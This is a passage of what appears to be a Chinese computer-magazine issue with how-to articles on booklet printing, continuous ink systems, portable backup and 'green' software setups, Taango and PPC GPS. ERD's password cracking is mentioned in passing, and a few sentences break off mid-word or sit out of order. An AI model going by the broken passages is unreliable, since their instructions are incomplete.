在执行打印命令后，FinePrint将打开一个对话框，对话框中包含“预览”、“信纸”、“表单工厂”、“设置”、“关于”五个选项卡。我们通过“预览”选项卡就可以设定FinePrint以何种方式打印，其余选项保持默认值。在“预览”对话框中的“布局”一项中，可以选择输出格式，有1、2、4、8和Booklet（小册子）五种格式，如图6为在FinePrint中设置缩印比例。对于A4纸来说，在一张纸上打印四页刚刚好，如果选择八页，打印出来的字体太小，打印机分辨率太低的话可能会看不清楚。选择四合一时字体大概相当于标准字体的小六号字体，效果相当好。假设动打印的分辨率在2400dpi以上并且支持2微微升墨滴，即使用八页打印也会得到很清晰的效果，只是字体相对较小。

如果在“布局”中选择“小册子”模式，FinePrint则以双面打印方式输出。在外出旅行时，我们可以将路线安排、旅馆介绍、地图和饭馆列表等信息打印成一本小册子。在需要同时使用缩放和双面打印功能时，甚至可以不选择“小册子”选项，改为选择希望将多个页码的内容打印在一张纸上，然后选中“预览”选项卡下方的“双面”复选框定义双面打印功能。

### 七、廉价照片输出：改装连续供墨系统

连续供墨系统的实质，是利用打印机墨盒在向喷头输送墨水的同时，墨盒内也需要自动吸入同等容量空气补充平衡这一原理，将从墨盒通气孔补充空气改为补充墨水，不管墨盒给喷头输送多少墨水，都能及时补充同量墨水。补充墨水通过软管连接到打印机外的大容器墨水上，这样可保证墨盒内始终有足够的墨水。连续供墨系统主要由三个部分组成，如图7为全套连续供墨系统。

1.  外墨盒
    这是存放墨水的大容器，可以使用各种材料的盒子、瓶子，也有使用玻璃瓶甚至是软性塑料袋或锡箔袋的。目前主要是以塑料材料注塑的盒子为主。外墨盒一般要和打印机放在同一平面，要求墨水液面略低于打印机喷嘴。注意千万不能高于打印机喷嘴过多，否则压力过大，墨水会通过打印头流进打印机内部废墨仓里。

2.  排管和排管支架
    外墨盒通过软管向打印机输送墨水，按照打印机使用的颜色数将各色软管粘为一排，称为排管，4色打印机就使用4排管，6色打印机就使用6排管。排管的两边，一头接外墨盒，一头接内墨盒，如图8为按照颜色连接各色墨水。排管采用含硅胶的软管，富有弹性、不易老化，一般不会出现问题。

3.  内墨盒
    连续供墨系统中为了和打印机外墨盒区别，将打印机内部装入墨车的墨盒称为内墨盒。内墨盒有原墨盒和专用墨盒。原墨盒指原厂墨盒和通用墨盒改装后连续供墨的内墨盒，专用墨盒指专门针对连续供墨而制造的墨盒，主要有无绵墨盒、墨囊等等。目前采用无绵墨盒居多。

连续供墨系统安装和使用都非常简单，不需要对打印机做任何改动。如果不想使用连续供墨系统，可以随时取下，即可换上墨盒和原来一样使用。目前市场上销售的连续供墨系统大多直接提供以上三项配件。在使用时只需要在打印机内放入相应墨盒，按照颜色连接输入管即可。在选购打印机时，建议用户更多考虑是否能够改造填充墨水或者使用填充墨水，这对于照片打印量较大的用户来说非常重要，可以直接将打印成本降低60%以上。

第一代连续供墨系统采用导管连接打印机内的原装墨盒，不仅存在芯片检测墨水容量的问题，还很容易造成堵塞。毕竟原装墨盒内墨水的化学成份与连续供墨系统不一样，而且特殊的过滤海绵也容易导致气压平衡失效。为此，新一代连续供墨系统一般直接使用兼容墨盒，使用时替换原装墨盒。虽说成本略有提升，但是稳定性与可操作性要好很多，也不会影响打印机的质保。

新一代连续供墨系统安装和使用都非常简单。但要注意的是，连续供墨系统一般随墨水一起供应，因此一定要仔细检验墨水的色彩是否准确，否则输出的照片可能存在明显偏色的现象。□

## 做个轻松的“移动一族”

文 / 水月子

在日常的工作和生活中，没有笔记本电脑的朋友可能需要在家里和单位操作不同的电脑来工作，但是让两部不同的电脑从使用环境到各种设置、文件都完全一致是十分困难的，因为你的文件每天都要更新，很难让两台电脑的内容随时随地保持一致。因此不少人就选择了让家里的电脑24小时不停机，自己随时随地从单位往家里上传文件的办法，这样做未免太浪费能源和自己的金钱了。其实我们只需要一些小软件以及一个移动闪存盘即可轻松做到让家里和单位的电脑任意内容的同步，下面就让我从几个方面一步一步教大家吧！

### 一、初级方法：让个人数据随身走

现在家里和单位使用的操作系统相信大部分都是Windows XP，从使用环境来说都是差不多的，这样的话我们可以考虑只要同步一些基本的文件，譬如邮件、收藏夹、我的文档还有另外一些工作的资料就可以了，这样的话我们可以使用一些文件备份工具来达到这个目的。那现在有没有完全中文，功能先进实用，而且又是免费的备份工具呢？有！它就是“FileGee企业文件同步备份系统”

不要被“企业文件备份系统”吓倒了，其实FileGee是非常适合没有笔记本电脑的上班族做文件移动备份的，它能够实现完全自动的备份，能够对比要备份的文件是否经过更改，然后自动更新到闪存盘、硬盘目录甚至是FTP服务器中。另外最吸引人的功能莫过于可以在没有安装FileGee的电脑上面进行自动恢复，我们完全可以把个人数据随身携带，这样在任何电脑上面都能够轻松使用自己的个人文件资料。注意，如果你只是备份本机上面的文件，那么FileGee是完全免费的；如果你需要备份FTP服务器或者局域网上面的目录，那么就需要付费使用了。接下来我们可以到 http://www.dudu.com/down.php?sid=1&did=101837&weblink=FileGee6.0CNP.exe 去下载FileGee，安装之后启动软件，即可看到主界面了（如图1）。

#### 1. 轻松用向导备份

FileGee的备份是用向导一步一步来进行的，因此就算你是第一次使用这个软件，也能够很快熟悉它的操作。我们点击“任务→新建任务向导”，或者直接按 Ctrl + N 弹出如图2的窗口来。首先我们要做的就是给备份任务取一个名字，以便区分不同的任务，譬如说“我的文档”。接下来我们选择“任务类型”，在FileGee里面一共有六种文件同步方式，它们分别是：

方式一：镜像同步 A 型（缺省）
每次执行任务时，软件复制源文件夹中新建或更新的文件到目标文件夹中，不会重复复制相同的文件，并在目标文件夹中删除源文件夹中已经删除的文件。

方式二：更新同步
每次执行任务时，软件发现源文件夹中有新建或更新的文件，则复制到目标文件夹下，并删除目标文件夹下之前复制的所有文件，只保留最新的文件。

方式三：累加同步
每次执行任务时，软件发现源文件夹中有新建或更新的文件，则复制到目标文件夹下，且不删除目标文件夹下原来的文件。目标文件夹下会保留所有在源文件夹下曾经出现过的文件而且是新的。

方式四：增量备份
每次执行任务时，软件发现源文件夹中有新建或更新的文件，则在目标文件夹下建立一个新的目录保存这些新的文件。虽然这些文件只反映了执行时源目录的一部分，但你可以利用软件中提供的文件恢复工具来恢复出执行时源目录中的目录结构和所有文件。第一次执行增量备份时，任务会对源文件夹做一次完全备份，以便以后能恢复。

方式五：完全备份
每次执行任务时，软件发现源文件夹中有文件被新建、更新或者删除，则在目标文件夹下建立一个新的目录保存源文件夹中的所有文件。

方式六：镜像同步 B 型
每次执行任务时，任何源目录中存在而目标目录中不存在的文件，或者两目录中最后修改时间不同的文件都会复制到目标文件夹中。任何源目录中不存在而目标目录中存在的文件都会被删除。此任务始终保持目标文件夹中的文件和源文件夹中的文件一模一样。这种备份一定要小心，因为它可能会删除你的目标文件夹里面的一些重要文接下来我们可以选择是否要在任务每次执行后加入备注信息，或者执行时不显示任务进度而节省 CPU 和内存资源。然后点击“下一步”出现如图 3 的窗口。

以设置需要同步的文件所在的源文件夹的路径。除了在本地机器之外，FileGee 还能够帮助我们备份远程 FTP 服务器和局域网上面的文件，不过这需要我们付费注册才可以使用，但对于备份本机的文件而言已经足够了。设置好了源文件夹的路径（譬如 C:\Documents and Settings\Administrator\My Documents）之后，点击“下一步”出现如图 4 的窗口。

这里设定的是将文件保存到哪里（也就是目标文件夹的路径了），我们可以选择是硬盘、闪存盘或者别的媒介。如果点选了“对文件进行压缩”的选项，我们不但能够将备份的文件压缩成为 ZIP 文件来节省磁盘空间，而且对于压缩文件你还可以设置密码来保护，点击“设置密码”之后，输入密码并且重复输入确认一次即可。

接下来点击“下一步”进入如图 5 的窗口。在缺省的状态下，我们可以让源文件目录里面的子文件夹也包含在内一起备份，如果不选择的话，你的所有文件都会存放在同一层的目录之下。其次，你通过文件名来指定哪些文件需要备份，文件名可以是特指的文件名；也可以用通配符来表示多个文件。首先选择“根据文件名”过滤，然后出现如图 6 的窗口，我们可以选择是“包含”或者“不包含”所指定的文件，其实就是让软件判断是否对我们设置的文件进行备份了。譬如我们要备份所有的 DOC 文件，可以输入“*.doc”然后点击“添加”即可，这样进行备份的时候只会备份 DOC 文档了。但是如果上面我们选择了“不包含”所指定的文件的话，那所有 DOC 文件都不会进行备份。至于是不是要对“任何子目录下文件名”或者“相对路径下的文件或文件夹”进行过滤，大家可以进行灵活设置。我们也可以直接对制定的文件进行“过滤”，点选“对文件进行过滤”之后再点击“选择文件”按钮，然后在弹出的窗口里面选择相应的文件，然后再选择“包含”或者“不包含”即可。

在图 6 设置好了的基础上点击“下一步”，我们就可以看到如图 7 的窗口，这里可以让我们选择在备份前或者备份之后执行什么命令。

接着点击“下一步”，在如图 8 的窗口里面就是让我们设置是仅仅备份一次还是进行“自动备份”。点选“自动备份”之后，我们可以设定好时间间隔和触发时间，然后软件就会驻留在内存里面运行，帮我们定时进行软件备份了。如果不进行自动备份的话，就会在设置好向导之后运行一次，以后将不再运行。

继续进行“下一步”，就到了设置是否进行自动删除的窗口（如图 9），它可以帮我们删除过时的文件或者是干脆全部删除。

最后点击“完成”，我们这个备份任务也就设置好了。回到软件主界面中，可以看到任务已经被添加到任务列表之中（如图 10）。现在我们只要选中这个任务，然后点击任务栏上面的类似“播放”的那个按钮，备份任务就会立刻开始了。

#### 2. 使用向导恢复备份文件

和备份的过程一样，文件恢复也有相应的向导。在主界面点击“工具→文件恢复向导”，就会弹出一个窗口让你选择需要恢复的任务名称，这个名称就是我们备份的时候所取的名字了。选择任务之后点击“下一步”，就会看到文件恢复列表，里面都是我们备份了的文件（如图11），缺省状态下是全部文件都被选中了，我们可以取消一些不需要恢复的文件或者目录。点击“下一步”之后就是让我们选择文件的恢复路径，最后点击“完成”，所有文件很快就会恢复到你指定的目录中去了。

### 二、中级方法：让操作系统“动”起来

现在不少朋友都会买一个笔记本硬盘和USB移动硬盘盒来携带个人数据，但是不同电脑的软件、硬件环境不同，这些都会让我们的工作效率大大降低。这样的话还不如干脆把Windows安装到移动硬盘里面，然后无论去到哪里，我们使用的都是自己的软件系统，不但用起来方便，而且再也不用考虑怎么样把不同电脑的数据进行同步了。不过普通的Windows XP是无法安装到USB移动存储器里面的，我们只能退而求其次，安装Linux或者是Windows PE，这里推荐大家使用Windows PE。

所谓的Windows PE就是指Windows预安装环境，它是微软提供给OEM厂商用来开发驱动和调试硬件的一个命令行方式（有Windows 2000/XP/2003等不同版本），容量只有100多MB，而且可以直接在光盘和移动硬盘上运行。除了Windows PE之外，我们还要有第三方软件ERD（仿真Windows XP界面），它的主要功能有四个：登录口令破解；反删除，反格式化；资源管理器；可安装任意Windows XP支持的软件。这样我们就可以利用ERD上网浏览、收发邮件和运行办公软件（Word、Excel）了。

#### 3. 制作“自动恢复备份”文件

使用向导恢复备份文件虽然快速，但是在另外一部机器上即使也有FileGee，但使用恢复向导还是无法找到我们备份的“任务”的，因此我们需要进行特殊的备份。首先我们按照前面所说的使用向导进行备份，在选择“任务类型”的时候，我们一定要选择“增量备份”。备份完成之后，我们回到FileGee的主界面，首先选中我们刚才已经进行了的增量备份的任务，然后点击工具栏“工具→增量备份信息导出”（如图12），接着我们会看到如图13的弹出窗口，首先我们选择一个增量备份的任务，接着点击第二行右端的按钮，选择日志文件的保存路径，下面就是设置日志文件的密码。设置完成之后点击“导出”，很快日志文件就导出好了。现在我们可以把保存了备份文件的目录拷贝到闪存盘里面，或者通过刻录盘、FTP传输，不要忘记要把日志文件也一直复制过去。

在恢复文件的时候，我们要在另外一部机器上也装一个FileGee，然后点击Windows（以XP为例）的“开始→所有程序→FileGee个人文件同步备份系统 →增量备份目录及文件恢复工具”，弹出如图14的窗口。在这里首先指定好备份文件的路径，然后指定好日志文件的路径，如果你设置了密码，当然还要把密码也输入进去，接着点击“下一步”，列表里面就会显示出当前的文件是何时备份的，用鼠标点选之后再点击“下一步”，就会出现让我们选择恢复哪些文件的窗口了，默认也是把所有文件都选择上的。接下来的操作和文件恢复向导都是一样的，非常简单。

有了“增量备份”恢复工具之后，现在我们就方便了，只要在日常使用的机器里面设置好一些要备份的个人目录，在要离开的时候点击一下“备份”，然后把所有信息都备份到移动存储器里面。到了另外一部电脑上，只要用增量备份恢复工具，即可把这些重要的个人文件轻松地“同步”一次了。

### 三、中级方法：拥有一个移动办公助手

- 步骤一：我们到http://www.52z.com/Down/3161.html去下载一个Windows PE + ERD2003汉化版回来。下载回来的是rar文件，解压之后我们就得到了一个ISO文件。这时我们就要用NERO等刻录软件的“刻录镜像文件”功能把ISO刻录到光盘里面，或者用Daemon Tools等虚拟光驱软件把ISO虚拟成为一个驱动器。
- 步骤二：把移动硬盘接到电脑上，在“我的电脑”上面点击鼠标右键，选择“管理”，然后在出现的管理界面中选择“磁盘管理”，对移动硬盘进行“分区”和格式化操作。要提醒大家的是，一定要把准备安装系统的分区做成“主分区”。格式化移动硬盘之后再在这个主分区上面点击鼠标右键，然后选择“将磁盘分区标记为活动的”（如图15）。设置好移动硬盘之后，现在我们把刚才刻录出来的Windows PE光盘，或者是在虚拟的Windows PE光驱里面把Documents and settings、Programs、Tools、pexp等几个目录复制到移动硬盘的活动分区里面。

```
[boot loader]
timeout=0
default=c:\minint\bootsect.dat
[operating systems]
default=c:\minint\bootsect.dat="winpe"
```

首先到http://gdfs.driversky.com/down/UTAMO290.EXE下载移动办公助手，在安装的时候我们可以把它安装到移动硬盘或者闪存盘里面。UTA 可以说是绿色软件，在别的系统上能够直接运行。安装好了之后运行UTA，我们就会看到如图16的窗口。在第一次运行的时候，我们需要建立一个超级用户，因此我们点击“新用户创建”。在创建用户的时候，有一个选项需要注意，那就是“指定个人数据存放目录”，把这个目录设置在比较容易找的路径内，能够方便我们把平时的一些个人数据随身带走，最好的选择自然是设置在移动存储器里面了。设置好用户名、密码以及个人数据存放目录之后点击“下一步”，软件会询问你是否导入收藏夹以及OE地址簿、IE常用网络地址列表，建议都把这些选上，最后点击“完成”，你的一些重要数据已经保存到之前设置的目录里面了。

接下来启动UTA移动办公助手，用新建的超级用户登陆，我们就会看到如图17的窗口，上面一个横条是提示你收到了邮件之类的信息，一般我们可以把它隐藏掉，而下面的类似QQ这样的就是UTA的工作台了，我们大部分的操作都可以在这里实现。

#### 1. 收发邮件

在收发邮件之前，我们应该设置一下邮件账号，在工作台上面点击“工具→服务器账号设置”，在UTA里面有两种邮箱账号，分别是工作邮箱和私人邮箱，我们可以随意设置，或者添加新的邮箱。点选了邮箱之后点击“属性”，即可设置pop3和smtp邮件服务器，以及邮件账号的用户名和密码。另外还可以设置一个自动检查邮箱账号的时间间隔（如图18）。设置好了之后我们什么都不用管，UTA会定时帮我们去检查邮箱账号。或者我们可以通过点击“工具→邮件发送/接收”来即时收取邮件。至于邮件的发送，只要点击“文件→新建→邮件”即可。

#### 2. 导入邮件

如果之前我们一直在使用别的邮件程序，想把以前的邮件导入到 UTA 里面，或者要整理一下不同邮箱里面的邮件，我们就需要用到“高级应用”功能了。点击工作台上面的“高级应用”即可看到如图 19 的窗口。这里的操作界面和步骤都和 Outlook 大同小异。当我们要导入邮件的时候，首先要用鼠标点选左边的“私人邮箱”或者“办公邮箱”，当然也可以选择下一层的目录，就是说点选到你想要导入邮件的具体路径里面，然后点击鼠标右键，在弹出菜单里面选择“导入”，即可看到如图 20 的弹出窗口。这里只要我们选择不同的导入类别，然后点击“下一步”，再选择一下要导入的邮件的地址就可以了。UTA 会帮你自动找到 Outlook 或者 Outlook Express 的邮件存放目录。如果你用的是 Foxmail 等第三方的邮件程序，就需要一封一封邮件导出为 eml 格式文件之后，再用 UTA 逐个导入了。

#### 3. 导入收藏夹

有时候为了方便使用，我们可以把整个收藏夹目录拷贝出来，不过更方便的做法是让 UTA 把整个收藏夹都导入到软件里面。在工作台界面的左边我们可以看到四个竖放的图标，其中第三个就是收藏夹图标了，点击之后会看到“精品收藏”和“我的 UTA”两个收藏目录，在这里我们无法进行新建目录的操作，但是可以导入收藏夹。首先我们选中“我的 UTA”，然后点击鼠标右键，选择“导入”，在如图 21 的窗口里面选择“从 IE 收藏夹导入”，然后点击“下一步”，很快就会完成整个导入操作了。如果我们需要在收藏夹里面新建目录，那么就要打开“高级应用”窗口，然后点击左下方的“收藏夹”按钮，在收藏夹树状列表的空白处点击鼠标右键，选择“新建→目录”来新建一个收藏夹目录。

#### 4. 导入文件资料

有时候我们可能需要备份一些文件资料随身携带，从表面上看，UTA 似乎没有帮我们备份某些文件目录的功能，但事实上我们可以借助 UTA 的收藏夹来实现这个功能。我们看看上面的导入收藏夹的操作，在图 21 的步骤里面，我们不要选择“从 IE 收藏夹导入”，而选择“从文件系统导入”，点击“下一步”之后，我们就可以选择要导入哪个目录，接着点击“下一步”就会看到如图 22 的窗口。这里的设置很重要，因为我们要保存文件，而不是收藏夹网址，因此这里一定要选择“保存副本”，最后点击“下一步”，你就会发现整个目录里面的文件都会被复制到 UTA 的收藏夹里面了。你可以直接展开目录，然后双击打开运行这些文件。如果要导出的话，也可以点击鼠标右键，选择“导出”，操作非常简单。

UTA 移动办公助手还有很多其他功能，譬如定时提醒、日程安排、便笺设置等等，这些功能由于和移动性没有太大关系，这里我就不罗嗦了，大家赶快试用一下 UTA，感受一下数据随身走的乐趣吧。

### 四、高级方法：打造绿色版的软件

有时候就算我们能够把数据随身携带，但在不同的电脑上，安装的软件也有所不同，这样也会影响到我们的使用效率，总不能到了每一部电脑上都要重新安装软件吧？有些朋友变聪明了，把一些常用软件的安装版存放到闪存盘上面，然后到了别的电脑上面之后再进行安装。这样做也未免麻烦了一些，我们需要做的是更加方便的做法：把这些软件做成不需要安装的“绿色版”，然后统统拷贝到移动存储器里面，这样无论我们在哪里，都能够使用这些软件了。

#### 1. 即时通讯工具

在现在主流的即时通讯工具里面，网易泡泡和MSN制作绿色版的难度比较大，而且使用人毕竟不如QQ多，因此我们主要针对QQ来制作绿色版即可。对于经常在外面使用电脑的朋友而言，拥有绿色版QQ的好处是显而易见的：虽然QQ可以随时安装，但号码信息以及聊天记录等等都是保存在本地的，万一在外面工作的时候需要查询聊天记录的话就很不方便了，而且在外面网吧机器上面说不定正在后台运行着检测QQ的病毒木马，把自己的聊天记录和登录信息留在这些机器上是很危险的，加上每次都要费很多功夫，这一切在用绿色版QQ之后就再也没有问题了。

首先打开QQ主界面，然后选择“菜单→设置→系统设置”，打开设置窗口之后在左边选择“声音设置”，在这里最好把声音屏蔽掉，因为你要把QQ在移动存储器上运行，路径很可能会发生变化。不过QQ的好处就是如果找不到声音文件，也不会发生死机的情况。接下来我们点击“自动更新设置”，把自动更新功能关闭掉。接下来就是“传输文件设置”（如图23），把默认接收的文件夹设置为相对路径，譬如说原本的C:\Program Files\QQ2006\999999\MyRecvFiles，由于你的QQ运行文件是在C:\Program Files\QQ2006\里面，因此这里你可以输入“999999\MyRecvFiles”，记住号码前面千万不能有“\”斜杠，这样QQ在保存文件的时候就会在QQ当前目录里面自动进行寻找，不管你的移动存储器盘符是什么也不会出错了，前面的声音文件也可以采用同样的方法来指定。最后就是“超级视频设置”，同样指定一个相对的目录来保存拍照下来的图片文件。一切设定完毕之后，现在我们可以把整个QQ目录，譬如是C:\Program Files\Tencent整个拷贝到移动存储器里面了。

#### 2. 音乐播放软件

虽然Windows内置的Media Player就能够播放MP3，但是不少挑剔的朋友还是宁愿选择比较专业的千千静听或者是Foobar，如果要做成绿色版的话，使用Foobar是最适合不过的了，因为Foobar本身就是一个绿色软件！在安装完成之后，我们可以直接把Foobar的目录拷贝到任何地方。执行Foobar的安装文件，我们首先要选择“完全安装”，接下来才选择“绿色安装”。“完全安装”的作用是Foobar把所有功能以及插件都安装到硬盘里面，而选择了绿色安装之后，Foobar就不会往注册表里面写入任何内容，自然也不会因为更换了机器而无法运行了。不过这样做的话，你就无法直接用Foobar来打开MP3音乐或者是读取MP3文件列表了，而且也无法用鼠标右键菜单把整个音乐目录添加到Foobar里面，因为你打开MP3文件的时候，当前系统会调用默认的播放器来播放。当我们到了另外一台机器上面，想用Foobar直接打开MP3的话，可以先打开Foobar的主界面，然后选择“文件→参数设置”，或者直接按Ctrl + P弹出设置窗口，在里面我们找到“文件类型”（如图24），这里我们要把“设为默认的音频播放器”以及“目录右键菜单”前面的方框都勾选上，然后点击“全部关联”之后再点击“全部保存”按钮，这样Foobar就会在当前系统里面建立好关联信息，你用起来就得心应手了。

#### 3. 图像处理软件

制作一个绿色版的Photoshop难度很大，一般个人不建议这样做，还不如直接到网上下载一个绿色版的Photoshop。我建议大家使用的是Hypersnap这款截图软件。因为平时很多人找素材的时候都是用屏幕截图键把屏幕截下来之后再到Photoshop里面进行裁减，用Hypersnap的话不但可以直接按照你要求的大小和形状把图片截取下来，甚至可以进行图形处理，虽说功能不如Photoshop强大，但是对于大多数人而言已经是足够了。Hypersnap如何截图和使用这里我就不多说了，主要说如何把它和操作系统“剥离”。首先我们要把Hypersnap安装好，然后配置好快捷键，接着我们把整个Hypersnap目录都拷贝到移动存储器里，譬如C:\Program Files\HyperSnap\。复制好了之后，我们点击Windows的“开始→运行”，输入regedit然后按回车来打开注册表编辑器。接着我们在注册表里面找到[HKEY_CURRENT_USER\Software\Hyperionics]，在上面点击鼠标右键，然后选择“导出”，可以创建一个.reg的注册表文件。这个文件里面保存的是Hypersnap的快捷键以及相关设置，把这个reg文件也拷贝到移动存储器里，这样在别的机器上面使用Hypersnap之前，首先我们查看一下移动存储器的路径，然后用记事本打开reg文件，把里面的文件路径譬如C:\Program## 4. 图片浏览工具

Windows自带的图片浏览器功能实在太弱了，可以说大多数人都无法忍受，很多人宁愿使用ACDSee，要把ACDSee制作成为绿色版其实很容易，在这里我们选用5.01中文版，做为图片浏览工具而言它已经足够了。

首先我们要把C:\Program Files\Common Files\ACD Systems\PlugIns目录拷贝到和ACDSee执行文件同一个目录里面，另外也把C:\Documents and Settings\Administrator\Application Data\ACD Systems\ImageDB目录拷贝到和ACDSee执行文件同一个目录里。接下来我们启动ACDSee，点击“工具”→插件设置，把插件文件夹的路径改为相对路径PlugIns，接着点击“工具→选项→数据库”，把数据库文件指向到ImageDB，最后把整个ACDSee文件夹拷贝到移动存储器里面即可。在别的机器上面运行的时候，ACDSee会提示你输出一次注册码，只要把原本的注册码输入即可，完全可以正常使用。至于和ACDSee安装目录一起备份的另外两个目录，其实是主要是放置一些插件的，譬如直接打开压缩文件里面的图片，对我们而言还是很有用的，所以要一起带上。

和Foobar一样，在别的机器上面运行ACDSee的时候会遇到文件关联的问题，因为你打开图片的时候会启动Windows默认的图片浏览器，因此我们在运行ACDSee之后，要打开“工具→文件关联”，在如图25的弹出窗口之中，我们选择“当ACDSee启动时检查这些文件关联”，这样ACDSee启动的时候，就会自动做好文件关联了。

## 5. 网络传输软件

在外面工作的时候，有时候可能要往远程的机器进行文件传输，现在一般都是使用FTP来传输的，FTP软件有很多，绿色版的话我们可以考虑使用FlashFXP，它和Foobar一样不会往注册表写入任何东西，可以随意使用。如果你对文件传输的功能要求比较高的话，可以使用CuteFTP Pro这款专业的软件，当然，之前要把它变成绿色版的。

制作这个专业软件的绿色版其实非常简单，只要我们把CuteFTP的安装目录拷贝到移动存储器里面就可以了，譬如C:\Program Files\GlobalSCAPE\CuteFTP Pro\。不过这样拷贝的话，我们事前在CuteFTP Pro里面保存的站点地址，用户名和密码等等都会丢失，因此还要多做一个工序，把这些东西从系统里面导出。假设你的机器用户名是admin，那么我们打开C:\Documents and Settings\admin\Application Data\目录，把里面的GlobalSCAPE目录整个拷贝下来。在另外一台机器里面运行CuteFTP Pro之前，我们首先搞清楚用户名是什么，譬如是administrator，那么我们就把GlobalSCAPE目录拷贝到C:\Documents and Settings\administrator\Application Data\目录里面，接着运行CuteFTP就可以了，记住一定要在运行CuteFTP Pro之前，因为CuteFTP Pro在第一次运行的时候会检测是否存在这些数据，如果没有的话它会自动写入缺省的站点数据哦。

### 五、终极方法：整个Windows搬过来

上面介绍的四种方法各有长处，但是也有各自的不足，现在我就提供给大家一种“终极做法”，就是把你的整个Windows XP系统搬到任意一台电脑里面去。听起来好像很复杂，其实你只需要一个软件即可，这个软件就是Taango了。Taango是一个解决方案的统称，包括了一个闪存盘和Taango软件，不过我们现在只需要Taango软件和任意一款闪存盘即可做到把自己家里的Windows搬到任意一台机器中去。只要轻轻一点，别人的电脑立刻就变成了你家里的系统了，除了硬盘内容不同之外，所有设置都是一样的！最神奇的莫过于你走的时候只要再轻松一按，Windows又会变回到原来的系统中去，别人不会看出一丝痕迹，真正是“万花丛中过，片叶不沾身”！对于Taango的好处不需要介绍那么多，我们立刻就动手吧！

#### 1. 第一次运行

首先我们到 http://www.softsea.net/soft/143670.htm 下载Taango最新的2.0版本。由于Taango本身就是结合移动存储器的软件，因此不需要考虑如何制作绿色版，直接把下载回来的文件解压到移动存储器里就可以使用了。在运行Taango之前，我们最好把所有的应用软件都关闭，不然Taango会强行关闭这些程序来进行数据同步。第一次运行Taango的时候需要注册，建议大家付一点钱去注册，毕竟这么好的软件很难得，值得支持啊。不过即便你不付费，Taango也可以免费使用30天。第一次登录的时候我们要输入一个密码，这是为了以后我们登录Taango而设的，设置完了之后会看到如图26的提示框。现在我们要做的就是使用“同步向导”来进行数据同步，把Windows XP“装”到移动存储器里面。

#### 2. 同步数据

在上图中我们点击“同步向导”即可看到如图27的窗口了。第一次使用同步向导的时候，这里只有“PC到U盘”可选，因为我们之前还没有进行过同步。对于浏览器和邮件程序，一般都是使用默认的，如果是Foxmail或者别的浏览器的话这里可以通过下拉菜单选择。点击“下一步”，Taango会询问你需要进行同步的项目（如图28），这里可以看到它已经帮我们把系统里面一些重要的目录都默认选择好了，不过我们还是可以进行一些个性化的设置。譬如说我们的邮箱并不是只有“收件箱”一个话，这里可以点击“设定其他邮箱”来进行添加。除了一些默认的系统目录之外，如果你还需要备份其他目录，可以点选最下方的“我要同步其他文件夹”，然后点击“选择其他文件夹”按钮，在弹出的新窗口里面我们再添加当前机器里面的一些目录，选择好了之后点击“确定”回到上一层即可。然后我们继续点击“下一步”，此时显示出来的是同步更新资料的时间范围，包括邮件和文件本身。这里要提醒大家一下，如果你用的是试用版的Taango，那么你只能同步7天之内的文件（如图29）。继续点“下一步”，Taango便会开始收集需要同步的数据，然后显示出同步的清单，其中包括了当前移动存储器的剩余存储空间，同步文件需要的存储空间以及同步之后的剩余空间等等。最后确认了之后点击“下一步”，Taango就会开始数据同步了，同步完成之后，我们还可以点击“检视报告”看看详情。

除了能够实现从PC到U盘同步之外，Taango还能够实现从U盘到PC同步，或者是U盘和PC双向同步（如图30），操作和上面的PC到U盘都是一样的，关键是同步的时候不能运行除了Taango之外的任何程序，否则会提示同步出错。

#### 3. “搬动”你的Windows

既然要把自己的整个Windows XP都搬到别人的机器上，自然不能简单地把数据自动拷贝过去就算了，我们要让系统里面的桌面设置、浏览器设置、邮件设置、收藏夹设置，甚至一些输入法设置等等个人设置都统统搬到别的机器上，几乎是“虚拟”出一个系统来。

在进行数据同步之后，我们重新启动Taango的时候会看到如图31的软件界面，在不用Taango的时候，它会自动隐藏到桌面顶端，我们只要把鼠标移到Taango的图标上它就会重新弹出来了，此时我们可以点击三个按钮之中最左边的那一个，程序会弹出一个窗口，提示你关闭当前的应用程序，只要继续点击“确定”，很快Taango就会开始“虚拟”的过程，大概一分钟不到的时间里面，当前电脑的桌面环境，包括邮件，收藏夹等等已经完全变成和你的电脑一模一样的了。

#### 4. 恢复原有的系统

在使用完毕之外，我们自然要把系统恢复成原有的，这样才不会影响其他人的使用，而且你也不会想让别人也看到你的个人数据把。要恢复原来的系统设置，只要打开Taango主界面，然后点击最左边的图标，你就会看到“登出虚拟电脑”的确认框，点击“确定”之后，很快这台电脑又会恢复到原来的设置了，真的非常方便。

Taango不但能够轻松做到数据同步和系统虚拟，它还具有很智能的一面，我们可以根据设定的条件，进行单向或双向同步数据，不会发生新文件被覆盖的问题，进行数据同步时Taango会将数据智能复制到所使用的计算机中，并自动比对文件新旧，也可将计算机的数据复制到Taango内带走，随时掌握最新的资料，包含邮件、联络人数据、简报或是照片，都可依照所设定的日期条件进行数据同步。有了Taango之后，相信你就别无所求了！

## 将PPC打造成最强的GPS装备

- 文 / 龚师傅

如今，GPS（全球卫星定位系统）在生活中的应用越来越广泛了，关于GPS的基本概念及原理这里不再赘述，大家可参看本刊2005年下半年合订本附录分册中《现代北斗星——GPS应用全面指南》一文。本文主要讲述如何将使用微软Windows Mobile系列操作系统的掌上电脑（即Pocket PC，或智能手机，后文统一简称为PPC，）打造成功能强大的GPS应用终端的相关知识。

### 一、为什么要用PPC组建个人GPS系统

我们知道，GPS系统由三个独立的部分组成：空间卫星部分、地面支撑系统和用户设备部分，其中，用户设备用于接收GPS卫星发射信号，以获得必要的导航和定位信息，完成导航和定位工作，也是普通用户直接接触到的部分。一般来说，个人用户组建GPS应用系统主要有下面几个方案：一是使用专业手持机；二是购买专用车载导航系统（有些中高档轿车上配有原装导航系统）；三是采用“笔记本电脑+GPS接收器”的组合，最后就是本文要重点介绍的PPC GPS系统。这几种方案各有特点，分别适合不同人群选择，比如专业手持机，本身可以独立完成GPS信号接收及定位功能，有些还具备地图功能，有一定导航能力。通常手持机设计制造都比较专业化，接收信号能力强，具备“三防”能力，有些还内置有电磁罗盘和气压高度计，可以弥补GPS不能在静止状态下辨别方向及测高不准的先天不足。尽管专业手持机功能相对单一，且价格高昂，但由于能适应各种严酷自然环境，电池使用时间较长，是野外工作者的最佳选择，如图1所示为常见的手持GPS设备。而对于电脑知识较为缺乏，而且经常开车外出的朋友，购买专用车载导航系统就是比较合适的选择，这类产品大多功能较为单一，操作使用上也比较简单。

“笔记本电脑+GPS接收器”的组合则适合有较强动手能力，且喜好驾车外出的朋友，很显然，对于徒步旅行者而言，这套系统基本上是无法使用的。

下面具体谈谈用PPC组建个人GPS系统的几点优势：

